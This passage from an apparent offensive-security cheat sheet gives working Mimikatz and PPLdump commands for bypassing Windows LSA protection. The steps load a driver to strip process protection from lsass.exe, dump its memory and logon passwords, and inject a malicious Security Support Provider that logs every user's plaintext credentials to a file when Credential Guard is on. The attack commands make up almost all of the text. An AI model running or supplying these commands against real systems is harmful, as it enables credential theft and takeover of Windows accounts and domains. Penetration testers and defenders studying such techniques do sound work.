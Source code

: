 :warning: To take effect, conditions are required :
- Win7 / 2008R2 / 8 / 2012 / 8.1 / 2012R2:
  * Adding requires lock
  * Removing requires signout
- Win10:
  * Adding requires signout
  * Removing requires signout
- Win2016:
  * Adding requires lock
  * Removing requires reboot

## Mimikatz - LSA Protection Workaround

- LSA as a Protected Process (RunAsPPL)
  ```powershell
  # Check if LSA runs as a protected process by looking if the variable "RunAsPPL" is set to 0x1
  reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa

  # Next upload the mimidriver.sys from the official mimikatz repo to same folder of your mimikatz.exe
  # Now lets import the mimidriver.sys to the system
  mimikatz # !+

  # Now lets remove the protection flags from lsass.exe process
  mimikatz # !processprotect /process:lsass.exe /remove

  # Finally run the logonpasswords function to dump lsass
  mimikatz # privilege::debug    
  mimikatz # token::elevate
  mimikatz # sekurlsa::logonpasswords
  
  # Now lets re-add the protection flags to the lsass.exe process
  mimikatz # !processprotect /process:lsass.exe

  # Unload the service created
  mimikatz # !-


  # https://github.com/itm4n/PPLdump
  PPLdump.exe [-v] [-d] [-f] <PROC_NAME|PROC_ID> <DUMP_FILE>
  PPLdump.exe lsass.exe lsass.dmp
  PPLdump.exe -v 720 out.dmp
  ```

- LSA is running as virtualized process (LSAISO) by **Credential Guard**
  ```powershell
  # Check if a process called lsaiso.exe exists on the running processes
  tasklist |findstr lsaiso

  # Lets inject our own malicious Security Support Provider into memory
  # require mimilib.dll in the same folder
  mimikatz # misc::memssp

  # Now every user session and authentication into this machine will get logged and plaintext credentials will get captured and dumped into c:\windows\system32\mimilsa.log
  ```
